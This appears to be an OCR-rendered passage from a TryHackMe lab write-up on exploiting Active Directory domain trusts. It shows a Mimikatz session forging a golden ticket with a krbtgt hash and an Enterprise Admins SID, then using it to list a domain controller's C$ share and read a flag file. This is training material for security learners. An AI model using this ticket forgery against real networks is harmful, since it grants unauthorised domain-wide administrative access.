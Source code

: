 ## Exploiting Domain Trusts

We finally have all of the information required to create our forged TGT. We will use Mimikatz to generate this golden ticket. The command will look something like this:


```shell-session
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

 .#####. mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ## > https://blog.gentilkiwi.com/mimikatz
 '## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
 '#####' > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
User : Administrator
Domain : za.tryhackme.loc (ZA)
SID : S-1-5-21-3885271727-2693558621-2658995185-1001
User Id : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3330634377-1326264276-632209373-519 ;
ServiceKey: 16f9af38fca3ada405386b3b57366082 - rc4_hmac_nt
Service : krbtgt
Lifetime : 4/30/2022 7:52:51 PM ; 4/27/2032 7:52:51 PM ; 4/27/2032 7:52:51 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ za.tryhackme.loc' successfully submitted for current session
```

First, we will verify that this ticket works for access to THMDC since it is a valid ticket for the Administrator user of the child domain:

```shell-session
C:\>dir \\thmdc.za.tryhackme.loc\c$
 Volume in drive \\thmdc.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmdc.za.tryhackme.loc\c$

01/04/2022 08:47 AM 103 delete-vagrant-user.ps1
04/30/2022 10:24 AM 154 dns_entries.csv
09/15/2018 08:19 AM <DIR> PerfLogs
03/21/2020 09:31 PM <DIR> Program Files
03/21/2020 09:28 PM <DIR> Program Files (x86)
04/27/2022 08:27 AM 1,423 thm-network-setup-dc.ps1
04/25/2022 07:13 PM <DIR> tmp
04/27/2022 08:22 AM <DIR> Users
04/25/2022 07:11 PM <SYMLINKD> vagrant [\\vboxsvr\vagrant]
04/27/2022 08:12 PM <DIR> Windows
 7 File(s) 2,356,811 bytes
 7 Dir(s) 50,913,189,888 bytes free;
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt